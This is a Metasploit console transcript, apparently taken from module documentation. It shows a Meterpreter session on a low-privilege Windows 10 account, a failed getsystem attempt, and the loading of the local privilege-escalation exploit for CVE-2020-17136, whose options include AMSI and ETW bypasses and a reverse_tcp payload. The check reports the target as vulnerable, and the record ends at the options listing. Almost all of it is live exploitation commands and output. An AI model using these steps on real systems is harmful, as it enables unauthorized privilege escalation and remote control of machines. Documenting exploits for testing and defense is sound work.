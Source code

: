 ```
msf exploit(multi/handler) > run

[*] Started bind TCP handler against 172.22.152.177:4444
[*] Sending stage (200262 bytes) to 172.22.152.177
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.22.152.177:4444) at 2021-01-08 11:17:11 -0600

meterpreter > getuid
Server username: DESKTOP-KUO5CML\normal
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem
[-] 2001: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/cve_2020_17136
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2020_17136) > set SESSION 1
SESSION => 1
msf exploit(windows/local/cve_2020_17136) > check
[*] The target appears to be vulnerable. A vulnerable Windows 10 20H1 build was detected!
msf exploit(windows/local/cve_2020_17136) > show options

Module options (exploit/windows/local/cve_2020_17136):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   AMSIBYPASS  true             yes       Enable Amsi bypass
   ETWBYPASS   true             yes       Enable Etw bypass
   SESSION     1                yes       The session to run this module on.
   WAIT        5                no        Time in seconds to wait


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows DLL Dropper


```